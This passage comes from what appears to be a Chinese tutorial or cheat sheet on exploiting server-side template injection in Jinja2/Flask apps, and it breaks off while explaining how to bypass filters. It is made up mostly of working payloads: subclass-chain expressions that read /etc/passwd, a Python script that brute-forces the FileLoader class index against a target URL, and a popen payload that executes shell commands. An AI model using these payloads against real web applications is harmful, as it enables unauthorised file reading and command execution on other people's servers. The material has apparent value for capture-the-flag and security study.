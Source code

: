 

## 文件读取

如果实在没有命令执行，那就看看有没有文件读取的操作

python2中file类可以直接用来读取文件

```
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

python3中没有这个file类，可以用`<class '_frozen_importlib_external.FileLoader'> `这个类去读取文件。

```
import requests

for i in range(500):
    url = "http://xxx/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'FileLoader' in res.text:
        print(i)
```

示例payload

```
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

# Bypass

## {{

绕过方法

![image-20220919090132318](https://tuchuang.huamang.xyz/img/image-20220919090132318.png)

（直接写给gitpage整报错了）

![image-20220919090231444](https://tuchuang.huamang.xyz/img/image-20220919090231444.png)

## []

过滤了[]后，我们payload有几个地方就过不去了

```
{{"".__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('ls').read()}}
```

### getitem

那么这里就可以利用函数`getitem()`进行获取列表元素，payload就变成这样
